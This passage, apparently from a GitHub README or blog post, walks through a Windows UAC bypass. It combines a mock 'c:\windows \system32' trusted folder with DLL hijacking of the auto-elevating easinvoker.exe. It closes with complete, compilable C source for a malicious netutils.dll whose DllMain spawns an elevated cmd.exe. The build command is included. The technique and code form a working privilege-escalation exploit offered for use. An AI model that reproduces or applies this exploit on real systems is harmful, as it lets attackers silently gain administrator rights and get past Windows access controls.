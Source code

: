It's pretty simple really.  We find an auto-elevate executable in c:\Windows\System32 and force it to load our own custom dll.  The interesting aspect of this particular bypass is that the auto elevated executable can only load a DLL if it's contained within the trusted C:\Windows\System32 folder.  We get around this using the mock trusted folder technique.  In brief, when you create a mock folder, the folder includes a trailing space, for instance: `c:\windows \`

In our case, we need to create `c:\windows \system32\`.  This works, as I understand it, because of the following which I swiped from an excellent Medium writeup by David Wells: [https://medium.com/@CE2Wells](https://medium.com/@CE2Wells)

I edited some of this to reflect the executable we're using in this blog post:

> "When this awkward path is sent to AIS for an elevation request, the path is passed to **GetLongPathNameW**, which converts it back to “**C:\Windows\System32\easinvoker.exe**” (space removed). Perfect! This is now the string that trusted directory checks are performed against (using RtlPrefixUnicodeString) for the rest of the routine. The beauty is that after the trusted directory check is done with this converted path string, it is then freed, and rest of checks (and final elevated execution request) are done with the original executable path name (with the trailing space)" - David Wells

Okay, let's choose our autoexecutable. I'll go with `easinvoker.exe`

![image](https://github.com/user-attachments/assets/4003ee7f-1754-474c-bba6-d386d8a2f558)

Now, we need to take care of a few things first.  We need to make sure to include the proper import(s) for our DLL when we load it using easinvoker.exe
I don't want to have to deal with tons of imported APIs, so I'd like to find a DLL that has just one or two.  We'll use the free WinAPISearch64 program to get the job done!
I'll go with the `netutils.dll` DLL file since it only has the 1 imported API:

![image](https://github.com/user-attachments/assets/a0fc0c77-d7e4-48fa-801d-23aee338ea7d)

Next, I need to understand how that API is laid out.  I'll check it out on Microsoft's site:

![image](https://github.com/user-attachments/assets/f9306112-f7b1-4c1f-aaf7-df25bbca94cd)

![image](https://github.com/user-attachments/assets/2ee4eb1b-fa93-481e-be39-653c7dba4625)

cool, let's put it all together: 

```c
//x86_64-w64-mingw32-gcc netutils.c -shared -o netutils.dll
#include <windows.h>
#include <lm.h>
#include <wtypes.h>

BOOL APIENTRY DllMain (HMODULE hModule, DWORD dwReason, LPVOID lpReserved){
    switch(dwReason){
        case DLL_PROCESS_ATTACH:
            WinExec("cmd.exe", 1); 
            break;
        case DLL_PROCESS_DETACH:
            break;
        case DLL_THREAD_ATTACH:
            break;
        case DLL_THREAD_DETACH:
            break;
    }
    return TRUE;
}
NET_API_STATUS WINAPI NetApiBufferFree(LPVOID Buffer)
{
        Sleep(INFINITE);
        return 1;
}
```

